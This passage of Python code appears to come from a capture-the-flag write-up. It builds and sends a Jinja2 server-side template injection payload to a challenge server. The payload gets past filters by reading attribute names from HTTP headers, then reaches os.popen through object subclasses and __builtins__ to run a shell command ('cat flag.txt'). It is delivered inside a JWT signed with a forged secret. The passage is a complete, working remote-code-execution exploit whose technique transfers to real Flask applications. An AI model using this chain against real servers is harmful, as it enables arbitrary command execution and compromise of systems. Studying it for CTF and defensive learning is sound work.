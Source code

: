 subclasses_dunder = f"{request_headers}.get({two})" # request.headers.get("2") = "__subclasses__"
subclasses = f"({class_object}|attr({subclasses_dunder}))()" # <class 'object'>.__subclasses__()

catch_warnings = f"({subclasses}|attr({getitem}))(240)" # <class 'object'>.__subclasses__().__getitem__(240) = <class 'warnings.catch_warnings'>
catch_warnings_instance = f"({catch_warnings})()" # <class 'warnings.catch_warnings'>()

_module = f"{request_headers}.get({three})" # request.headers.get("2") = "_module"
module = f"({catch_warnings_instance})|attr({_module})" # <class 'warnings.catch_warnings'>()._module = <module 'warnings' from '/usr/local/lib/python3.10/warnings.py'>

builtins_dunder = f"{request_headers}.get({four})" # request.headers.get("4") = "__builtins__"
builtins = f"{module}|attr({builtins_dunder})" # <class 'warnings.catch_warnings'>()._module.__builtins__

import_dunder = f"{request_headers}.get({five})" # request.headers.get("5") = "__import__"
import_func = f"({builtins}|attr({getitem}))({import_dunder})" # <class 'warnings.catch_warnings'>()._module.__builtins__.__getitem__("__import__") = <built-in function __import__>

os_str = f"{request_headers}.get({six})" # request.headers.get("6") = "os"
os = f"{import_func}({os_str})" # <built-in function __import__>("os") = <module 'os' (frozen)>

popen_str = f"{request_headers}.get({seven})" # request.headers.get("7") = "popen"
popen_func = f"{os}|attr({popen_str})" # <module 'os' (frozen)>.popen

cmd = f"{request_headers}.get({eight})" # request.headers.get("8") = our cmd
popen = f"{popen_func}({cmd})" # <module 'os' (frozen)>.popen(cmd)

read_str = f"{request_headers}.get({nine})" # request.headers.get("9") = "read"
popen_read = f"({popen}|attr({read_str}))()"  # <module 'os' (frozen)>.popen(cmd).read()

payload = "{{" + popen_read + "}}"

headers = {
    "Pragma": "0123456789",
    "Referer": "__getitem__",
    "Content-Type": "headers",
    "0": "__class__",
    "1": "__mro__",
    "2": "__subclasses__",
    "3": "_module",
    "4": "__builtins__",
    "5": "__import__",
    "6": "os",
    "7": "popen",
    "8": "cat flag.txt", # cmd
    "9": "read",
}

auth = jwt.encode({"username": payload}, "torontobluejays", algorithm="HS256")

print(payload)

response = requests.get('https://uoftctf-my-first-app.chals.io/dashboard', cookies={"auth_token":auth}, headers=headers)

if '500' in response.text:
    print('Internal Server Error')
elif 'BLOCKED' in response.text:
    print(response.text)
else:
    result = response.text.split('\n')[15][38:-6]
    print(html.unescape(result))
{% endccb %}
